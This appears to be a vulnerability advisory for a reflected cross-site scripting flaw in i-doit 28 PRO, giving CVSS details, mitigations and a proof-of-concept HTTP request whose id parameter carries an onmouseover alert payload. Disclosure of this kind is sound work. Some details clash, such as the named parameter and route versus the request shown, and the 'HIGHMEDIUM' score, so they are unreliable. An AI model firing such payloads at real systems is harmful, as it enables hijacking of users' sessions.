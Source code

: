 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
        | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | multiedit (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /multiedit route | /multiedit |

- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

